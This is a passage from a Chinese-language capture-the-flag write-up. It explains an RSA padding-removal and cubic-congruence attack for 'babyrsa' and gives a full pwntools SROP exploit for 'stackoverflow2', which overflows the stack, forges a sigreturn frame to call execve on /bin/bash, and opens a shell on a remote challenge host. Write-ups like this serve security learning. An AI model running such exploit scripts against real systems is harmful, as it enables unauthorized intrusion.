 ![](7.5.png)
![](7.6.png)

## 八、babyrsa
flag内容会生成随机的padding，最后一个bytes由用户提供，返回RSA加密的密文。  
用户可以提供3次，但每次的padding都是重新随机生成的。所以，先去掉flag中随机的因素。  
注意到：如果输入错误内容，由于try-catch机制，cnt不会增加，但flag = flag[:bits//8-padsize]语句依然执行，所以会少清空一个字符这样flag的内容会逐渐加长，需要padding的逐渐减少。最终可以使得 flag长度正好不需要随机padding。因为n的总长度是限制，flag最大不超过256bytes，所以只需要连续输入 256 次字 母（不是数字）内容。    
接下来，提供 3 个不同的末尾 bytes 即可。根据RSA的计算方式，最后相当于求解同余意义下的三元线性方程组。为了方便计算，3 个末尾 bytes 分别取 0, 1,2:
对应的方程组是：
```
    x^3 = r1 mod n 
    (256x+1)^3 = r2 mod n 
    (256x+2)^3 = r3 mod n
```
x 是带有 padding 的 flag;r1, r2, r3 是末尾为 0, 1, 2 所得到的密文。
直接求解方程组，得到xmodn。转换成ascii码格式，保留前面的flag。

 

## 九、stackoverflow2
首先在main函数溢出，进入restart函数。  
在try again 后输入还可以进行溢出，这次溢出布局payload，让一个env指针指向非法地址，execve会执行失败返回，接下来进行srop。因为已经在函数中存在execve函数，这里只需要直接控制好寄存器值便可以拿到shell。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.log_level="debug"
pwn_file="./stackoverflow2"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("202.120.7.206",60014)
    pid=0

r.sendlineafter(":","LIBC_FATAL_STDERR_=1\x00/bin/bash\x00")
r.sendlineafter("Overflow","a"*0x30)
f={
    0:"aaaa",
    0x12c+0x28:p64(0x601f00)*8+p64(0x6010f5)+p64(0)+p64(0x601f00)*2+\
            p64(0)+p64(0x601f00)*2+p64(0x601a00)+p64(elf.sym["execve"])+\
            p64(0)+p16(0x33)+p16(0)*2,
    0xb54:p64(0)+p64(0x6010e0)+p64(0xdeadbeef),
}
r.sendlineafter("[N] ",fit(f,filler="\x00"))
r.interactive()
```